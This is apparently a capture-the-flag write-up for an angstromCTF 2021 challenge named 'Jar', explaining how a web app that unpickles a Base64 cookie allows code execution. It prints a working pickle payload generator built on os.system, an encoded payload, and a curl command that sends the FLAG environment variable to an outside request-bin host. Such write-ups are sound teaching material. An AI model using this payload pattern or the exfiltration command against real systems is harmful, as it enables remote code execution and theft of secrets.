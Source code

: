 # Jar

## Challenge:

My other pickle challenges seem to be giving you all a hard time, so here's a [simpler one](https://jar.2021.chall.actf.co/) to get you warmed up.

## Solution:

We’re given a link to the web application, the Python source code, and a picture of a pickle. The hint points to the [documentation for the Python pickle module](https://docs.python.org/3/library/pickle.html), a clue that this application is vulnerable to insecure deserialization.

The site shows a single form input with an “Add Item” button. Whatever we submit is appended to the page. Looking at the source code, we can see that the `contents` cookie is used to store these submissions.

On a post request, the `contents` cookie is Base64 decoded and then deserialized and stored in an array. The new item is added, the array is serialized, and then the cookie is reencoded and set in the browser. When we visit the page, the `contents` cookie is decoded and deserialized and the objects are used to generate the text boxes around the page.

We should be able to generate our own pickled payload, set it as the `contents` cookie, and convince the application to deserialize the cookie and execute our code.

There’s a good write-up [here](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) with a script to generate an exploit. Unfortunately, everything we try seems to result in a `500` error. Using a trick discovered [here](https://r3billions.com/writeup-pickle-store/), we can try `sleep 5` to confirm that our code is getting executed on the server:

```
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ("sleep 5")
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

That gives us the payload `gASVIgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAdzbGVlcCA1lIWUUpQu`. If we set that as our cookie and refresh the page, we see that it does indeed take 5 seconds to load. Now we just need to exfiltrate our flag.

Using another trick from that same write-up, we can try to `curl` an endpoint with our output. We can use our own server, or a [request bin](https://requestbin.com/), to receive the payload.

We can see in the source code that the flag is stored in an environment variable. Let’s update our exploit:

```
cmd = ("curl https://en1rz2m58frpb.x.pipedream.net/`echo $FLAG`")
```

If we give that a try, we immediately see a response on our request bin:

And there's our flag: `actf{you_got_yourself_out_of_a_pickle}`.
